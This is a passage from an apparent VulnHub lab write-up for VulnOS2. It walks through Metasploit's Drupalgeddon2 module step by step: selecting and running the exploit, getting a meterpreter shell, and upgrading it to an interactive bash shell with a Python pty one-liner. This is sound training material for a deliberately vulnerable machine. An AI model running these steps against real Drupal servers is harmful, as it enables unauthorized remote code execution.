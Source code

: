 >This  can be easily solved by downloading highline by using this command 
    > `sudo gem install highline`



**Metasploit**
Another way to use this exploit is using Metasploit
Let’s start Metasploit by typing out 

    msfconsole     

![9](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/86c9531b-13f9-402f-981f-ceefbf68e331)



Let’s search for the Drupalgeddon2 exploit 

    search Drupalgeddon2 

We get one result

![10](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/257cef13-6ff1-4628-a896-9da176c03e6b)


Let’s select the module by

    use 0

Now let’s add the appropriate options, to see the options type out

    options

![11](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/dd4a14c9-fa2b-453e-bd93-cfe52f76a625)


Let’s fill in all the options

![12](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/12590df4-47d9-4a60-950a-fb614d9dc400)


Let’s exploit by using 

    exploit

![13](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/69b164b0-5105-4f7a-beec-c8b704048690)

We got a meterpreter shell

Let’s convert it into a system shell by using 

    shell

![14](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/42b3c1b6-96ec-4b82-9b57-d79e7a879ae4)


Let’s upgrade our shell to bash by

    python -c "import pty; pty.spawn('/bin/bash')"

![15](https://github.com/omarMahmood05/Vulnhub---VulnOs2---Markup/assets/86721437/a9cfc105-b19b-438d-8f5c-338925aff59c)

